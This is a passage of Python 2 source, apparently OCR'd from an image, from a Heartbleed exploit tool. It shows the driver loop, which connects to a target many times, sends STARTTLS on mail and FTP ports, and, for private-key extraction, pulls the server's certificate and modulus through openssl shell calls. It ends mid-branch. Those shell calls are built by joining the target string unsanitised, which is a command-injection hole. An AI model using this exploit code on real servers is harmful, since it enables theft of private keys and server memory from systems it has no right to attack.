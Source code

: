         firstrun = True

        print '\n##################################################################'

        print 'Connecting to: ' + targ + ':' + str(port) + ', ' + str(opts.num) + ' times'

        for x in range(0, opts.num):

            if x > 0:

                firstrun = False

            

            if x == 0 and opts.extractkey:

                print "Attempting to extract private key from returned data..."

                if not os.path.exists('./hb-certs'):

                    os.makedirs('./hb-certs')

                print '\nGrabbing public cert from: ' + targ + ':' + str(port) + '\n'

                os.system('echo | openssl s_client -connect ' + targ + ':' + str(port) + ' -showcerts | openssl x509 > hb-certs/sslcert_' + targ + '.pem')	

                print '\nExtracting modulus from cert...\n'

                os.system('openssl x509 -pubkey -noout -in hb-certs/sslcert_' + targ + '.pem > hb-certs/sslcert_' + targ + '_pubkey.pem')

                output = os.popen('openssl x509 -in hb-certs/sslcert_' + targ + '.pem -modulus -noout | cut -d= -f2')

                modulus = output.read()

            

            s = conn(targ, port)

            if not s:

                continue



            # send starttls command if specified as an option or if common smtp/pop3/imap ports are used

            if (opts.starttls) or (port in {25, 587, 110, 143, 21}):

                

                stls = False

                atls = False

                

                # check if smtp supports starttls/stls

                if port in {25, 587}:
